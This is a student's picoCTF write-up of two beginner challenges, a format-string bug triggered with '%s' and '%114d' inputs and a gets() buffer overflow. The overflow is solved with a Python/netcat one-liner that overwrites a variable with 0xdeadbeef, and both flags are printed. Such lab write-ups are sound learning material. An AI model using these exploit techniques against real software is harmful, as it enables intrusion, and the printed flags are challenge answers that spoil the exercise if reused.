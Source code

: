 # 2. Format String 0

Can you use your knowledge of format strings to make the customers happy? Download the binary here. Download the source here. Connect with the challenge instance here: nc mimas.picoctf.net 55645

## Solution:

- First, i analysed the C file given, and found that for the first order, our input needs to exceed 64 bytes(2*bufsize-which is defined as 32), so to achievie this, we must use the Gr%114d_Cheese option.
- I was abled to figure it out since we are told to look for format specifiers in the hint, and %114d in "Gr%114d_Cheese" is a format specifier, which when used in a print statement will print out a number which is 114 charecters long, which will satisfy the condition.

- For the second order, I used the "Cla%sic_Che%s%steak" option, since it is the only one with a format specifier, that is "%s" which will try to process a string argument when it doesn't have any, which should break the program, and gives us the flag.


```
aaditya@aaditya-laptop:~$ nc mimas.picoctf.net 55645
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese                                            
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}
```

## Concepts learnt:

- I learnt how to exploit a vunlnerability in format specifiers.
- I also learned how to analyse programs given.


## Notes:

- Nil.

## Resources:

- Nil.


***

# 3. clutter-overflow

Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890

## Solution:

- First, i analysed the C file given, and found that we basically need to get the code variable to be "deadbeef". To do this, we can exploit buffer overflow on the variable after this, that is clutter, which is what we are asked to input.

- Using buffer overflow on clutter will basically put the extra part of the input in code.

- We can see that variabel size given is 256, so we use hit and trial to find out that the max is 264, after this, the buffer will overflow, using which we can write deadbeef in code.

- I used the command `(python -c "print('A'*264)+'\xef\xbe\xad\xde'") | nc mars.picoctf.net 31890` to enter deadbeef into code. Since, the hex byte represents two charecters and the bytes are read in reverse order.
  
- This gives us the flag by making code and clutter have the same value.

  

```
aaditya@aaditya-laptop:~$ (python -c "print('A'*264)+'\xef\xbe\xad\xde'") | nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- I learnt what buffer overflow is, and that `gets()` is vulnerable to it.
- I learnt how to exploit buffer overflow

## Notes:

- Nil.

## Resources:

- Nil.


***

